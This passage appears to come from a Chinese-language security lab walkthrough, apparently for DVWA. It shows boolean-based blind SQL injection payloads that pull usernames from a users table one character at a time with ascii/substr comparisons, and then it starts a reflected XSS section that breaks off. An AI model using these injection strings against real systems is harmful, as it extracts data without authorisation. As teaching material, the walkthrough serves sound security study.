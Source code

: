   - 1’ and ascii(substr((select user from users limit 3,1)1,1))=105 #  //i

  <img src="img\sql-blind18.jpg" alt="sql-blind18" style="zoom:67%;" />

  - 1’ and ascii(substr((select user from users limit 4,1)1,1))=110 #  //n

  <img src="img\sql-blind19.jpg" alt="sql-blind19" style="zoom: 67%;" />

以此类推....

#### 8.Reflected Cross Site Scripting(XSS)（反射型跨站脚本）

- 查看源码
